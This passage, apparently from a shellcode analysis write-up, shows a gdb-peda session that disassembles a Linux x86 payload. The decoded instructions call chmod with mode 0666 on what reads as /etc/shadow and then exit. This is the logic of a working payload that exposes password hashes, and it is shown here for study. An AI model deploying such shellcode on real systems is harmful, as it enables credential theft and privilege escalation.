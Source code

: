 Use `gdb` with `peda` to dump assembly code.

```sh
root@ubuntu:~# gdb -q ./shellcode
Reading symbols from ./shellcode...(no debugging symbols found)...done.
gdb-peda$ set disassembly-flavor intel
gdb-peda$ break *&shellcode
Breakpoint 1 at 0x804a040
gdb-peda$ run
Starting program: /root/shellcode 

[----------------------------------registers-----------------------------------]
EAX: 0x804a040 --> 0x580f6a99 
EBX: 0x0 
ECX: 0xbfffee90 --> 0x1 
EDX: 0xbfffeeb4 --> 0x0 
ESI: 0xb7fb9000 --> 0x1b1db0 
EDI: 0xb7fb9000 --> 0x1b1db0 
EBP: 0xbfffee78 --> 0x0 
ESP: 0xbfffee5c --> 0x80483f8 (<main+29>:	nop)
EIP: 0x804a040 --> 0x580f6a99
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804a03a:	add    BYTE PTR [eax],al
   0x804a03c:	add    BYTE PTR [eax],al
   0x804a03e:	add    BYTE PTR [eax],al
=> 0x804a040 <shellcode>:	cdq    
   0x804a041 <shellcode+1>:	push   0xf
   0x804a043 <shellcode+3>:	pop    eax
   0x804a044 <shellcode+4>:	push   edx
   0x804a045 <shellcode+5>:	call   0x804a056 <shellcode+22>
[------------------------------------stack-------------------------------------]
0000| 0xbfffee5c --> 0x80483f8 (<main+29>:	nop)
0004| 0xbfffee60 --> 0x1 
0008| 0xbfffee64 --> 0xbfffef24 --> 0xbffff120 ("/root/shellcode")
0012| 0xbfffee68 --> 0xbfffef2c --> 0xbffff130 ("XDG_VTNR=7")
0016| 0xbfffee6c --> 0x804a040 --> 0x580f6a99 
0020| 0xbfffee70 --> 0xb7fb93dc --> 0xb7fba1e0 --> 0x0 
0024| 0xbfffee74 --> 0xbfffee90 --> 0x1 
0028| 0xbfffee78 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804a040 in shellcode ()
gdb-peda$ disassemble $eip, +35
Dump of assembler code from 0x804a040 to 0x804a063:
=> 0x0804a040 <shellcode+0>:	cdq    
   0x0804a041 <shellcode+1>:	push   0xf
   0x0804a043 <shellcode+3>:	pop    eax
   0x0804a044 <shellcode+4>:	push   edx
   0x0804a045 <shellcode+5>:	call   0x804a056 <shellcode+22>
   0x0804a04a <shellcode+10>:	das    
   0x0804a04b <shellcode+11>:	gs je  0x804a0b1
   0x0804a04e <shellcode+14>:	das    
   0x0804a04f <shellcode+15>:	jae    0x804a0b9
   0x0804a051 <shellcode+17>:	popa   
   0x0804a052 <shellcode+18>:	outs   dx,DWORD PTR fs:[esi]
   0x0804a054 <shellcode+20>:	ja     0x804a056 <shellcode+22>
   0x0804a056 <shellcode+22>:	pop    ebx
   0x0804a057 <shellcode+23>:	push   0x1b6
   0x0804a05c <shellcode+28>:	pop    ecx
   0x0804a05d <shellcode+29>:	int    0x80
   0x0804a05f <shellcode+31>:	push   0x1
   0x0804a061 <shellcode+33>:	pop    eax
```